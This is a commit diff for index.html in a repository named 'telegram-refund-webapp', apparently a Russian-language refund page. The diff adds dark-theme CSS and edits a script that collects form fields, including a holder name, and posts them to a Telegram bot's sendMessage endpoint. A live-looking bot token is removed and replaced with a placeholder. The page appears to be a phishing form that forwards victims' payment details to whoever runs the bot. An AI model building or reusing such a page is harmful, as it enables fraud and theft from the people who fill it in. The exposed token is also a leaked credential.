

Before and after one commit to mlddleware/telegram-refund-webapp, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-882 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,6 +4,51 @@
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Оформление возврата средств</title>
+    <style>
+        body {
+            background-color: #121212;
+            color: #00ff00;
+            font-family: Arial, sans-serif;
+            display: flex;
+            flex-direction: column;
+            align-items: center;
+            justify-content: center;
+            height: 100vh;
+            margin: 0;
+        }
+        h2 {
+            margin-bottom: 20px;
+        }
+        input {
+            width: 80%;
+            max-width: 300px;
+            padding: 10px;
+            margin: 10px 0;
+            border: 1px solid #00ff00;
+            background-color: #1a1a1a;
+            color: #00ff00;
+            border-radius: 5px;
+        }
+        button {
+            background-color: #00ff00;
+            color: #121212;
+            padding: 10px 20px;
+            border: none;
+            cursor: pointer;
+            font-size: 16px;
+            border-radius: 5px;
+            margin-top: 15px;
+            transition: 0.3s;
+        }
+        button:hover {
+            background-color: #009900;
+        }
+        p {
+            margin-top: 20px;
+            font-size: 12px;
+            color: #888;
+        }
+    </style>
     <script>
         function sendData() {
             const data = {
@@ -13,7 +58,7 @@
                 holder_name: document.getElementById('holder_name').value
             };
 
-            fetch("https://api.telegram.org/bot7878192082:AAE7oE001p3_MMLKMm_PxpJgaTTdINA-Vq4/sendMessage", {
+            fetch("https://api.telegram.org/botYOUR_BOT_TOKEN/sendMessage", {
                 method: "POST",
                 headers: { "Content-Type": "application/json" },
                 body: JSON.stringify({
```
